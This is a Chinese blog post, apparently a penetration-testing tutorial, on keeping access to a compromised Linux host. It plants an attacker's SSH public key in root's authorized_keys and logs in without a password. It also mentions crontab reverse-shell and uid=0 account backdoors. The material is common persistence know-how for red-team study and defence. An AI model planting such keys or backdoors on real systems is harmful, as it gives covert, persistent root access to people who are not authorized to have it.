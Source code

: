 ```yaml
---
layout:     post
title:      "Linux下的ssh免密登录后门"
subtitle:   "欢迎浏览"
date:       2021-11-20 23:39:00
author:     "zhangsanjin"
header-img: "img/bg/hello_world.jpg"
catalog: true
tags:
- ssh免密
---
```



# 渗透测试|Linux下的ssh免密登录后门

[TRY](https://www.nctry.com/1500.html) 2020-02-26 2,848 [7](https://www.nctry.com/1500.html#comments)

# 后代人的权利远比当代人的欲望更重要。

来自：一言

var xhr = new XMLHttpRequest(); xhr.open('get', 'https://v1.hitokoto.cn/'); xhr.onreadystatechange = function () { if (xhr.readyState === 4) { var data = JSON.parse(xhr.responseText); var hitokoto = document.getElementById('hitokoto'); hitokoto.innerText = data.hitokoto; } } xhr.send();

## 前言

相信大家在做渗透测试的时候，会遇到后渗透阶段的权限维持问题，常见的linux后门有crontab后门（在计划任务里添加反弹shell任务），超级用户后门（也就是uid=0的用户），ssh免密登录后门等等等~~~![](/assets/5.png)，当然你有能力的话，可以试试破解root密码~~这里我就详细的教大家如何利用ssh后门和计划任务后门（下次讲，这次懒得写了~）进行权限维持。（以下内容适合小白观看，大佬勿喷![](/assets/3.png)）

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_151605_51.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_151605_51.jpg)

## 情景模拟

让我们假设一下，你已经通过目标主机的漏洞成功拿到了shell![](/assets/36.png)，但是可能这个漏洞不知道什么时候就会被管理员修复，你也不知道root权限的密码，那咋办嘛？![](/assets/61.png)哭？![](/assets/15.png)寻找新的漏洞？![](/assets/19.png)，当然不用这么麻烦，所以我们需要给目标主机留个后门，方便自己随时日进对方系统~

环境如下：

攻击机（本机）：kali    ip: 1.1.2.3

目标机：ubuntu   ip: 1.1.2.5

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_152447_11.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_152447_11.gif)

## ssh免密登录后门

ssh免密登录就是在自己的攻击机上生成一个密钥，然后把他放进目标主机的ssh密钥存放文件里（个人理解~），然后攻击机就可以拿着这个密钥直接连接目标主机了，不需要密码，当然后门嘛，还是会有被发现的风险的~

1.在kali（自己的服务器）上生成密钥

Shell

1. ssh\-keygen \-b 4096 \-t rsa #直接三个回车搞定

复制 文本 高亮

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_160619_88.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160619_88.jpg)

2.查看一下生成的密钥

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_160641_35.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160641_35.jpg)

3.将密钥里的内容全部复制，注意是全部！然后复制到目标服务端的`authorized_keys`中，命令如下

注意：是在你需要留后门的主机上执行以下命令！

Shell

1. echo "你自己的密钥内容"\>>/root/.ssh/authorized\_keys #两个>>表示追加在文件后面
2. chmod 600 ~/.ssh/authorized\_keys #编辑完成后还得修改权限
3. chmod 700 ~/.ssh

复制 文本 高亮

详细操作可看下图：

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_161125_29.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161125_29.jpg)

4.在攻击机上使用免密登录测试

Shell

1. ssh \-i /root/.ssh/id\_rsa root@目标ip

复制 文本 高亮

测试截图如下：

[![渗透测试|Linux下的ssh免密登录后门](/assets/20200225_161300_80.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161300_80.gif)

可以看到不用密码就直接进入了目标服务器，好了时间也不早了，今天的教程到这里就结束了，下次再分享crontab计划任务后门。![](/assets/33.png)

PS：本站只是分享技术，切勿进行违法操作，纯手打，希望转载表明出处，谢谢。

有趣提示：后门还是有被发现的风险哦。



参考：

https://www.nctry.com/?s=ssh%E5%85%8D%E5%AF%86